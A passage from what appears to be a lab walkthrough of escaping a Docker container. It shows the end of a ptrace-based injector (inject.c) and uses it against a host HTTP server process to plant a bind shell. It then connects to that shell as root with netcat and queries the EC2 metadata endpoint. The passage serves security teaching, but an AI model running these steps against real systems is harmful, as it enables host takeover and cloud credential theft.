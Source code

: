 ```c
}
printf("+ Run it!\n");

if ((ptrace(PTRACE_DETACH, target, NULL, NULL)) < 0)
{
perror("ptrace(DETACH):");
exit(1);
}
return 0;
}
```

* View the saved file to check for any errors.

```bash
cat inject.c
```

![](./images/03/10.png)

* Now we will compile the program and make a note of the pid of the python3 http.server process.

```bash
gcc inject.c -o inject
ps -ef | grep "python"
```

![](./images/03/11.png)

* We will execute the compiled binary and pass it the pid of the HTTP Server as an argument.

```bash
./inject 19419
```

The binary executes successfully, now to connect to the bind shell we need the IP address of the host machine. From the ``ifconfig`` command we find the IP address of the docker host to be 172.17.0.2, therefore the host machine will have IP address ``172.17.0.1``.

So we will connect to the bind shell with netcat on port 5600 using the command:

```bash
nc 172.17.0.1 5600
```

![](./images/03/12.png)

* We have connected let's check the user id, we are uid=0, and on listing the root of the filesystem, we are on the host machine.

![](./images/03/13.png)

* We can now try to access the EC2 instance IMDS endpoint.

```bash
curl -m 5 http://169.254.169.254/latest/meta-data/
```
